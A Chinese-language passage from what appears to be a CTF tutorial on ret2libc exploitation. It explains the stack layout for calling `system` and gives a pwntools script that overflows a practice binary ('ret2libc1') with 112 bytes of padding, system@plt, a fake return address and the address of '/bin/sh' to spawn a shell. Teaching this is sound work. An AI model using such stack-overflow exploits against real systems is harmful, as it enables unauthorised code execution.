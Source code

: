 查找一下是否有`system`函数存在.

<div align=center><img src="./images/33.png"></div>

由于存在`system`函数, 因此直接返回该处执行`system`函数即可. 这里我们需要注意函数调用栈的结构, 如果是正常调用`system`函数, 我们调用的时候会有一个对应的返回地址, 这里以`bbbb`作为虚假的地址, 其后参数对应的参数内容. `exploit`如下:

```python
# coding=utf-8
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460

# flat模块能将pattern字符串和地址结合并且转为字节模式
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])

sh.sendline(payload)
sh.interactive()
```

<div align=center><img src="./images/34.png"></div>
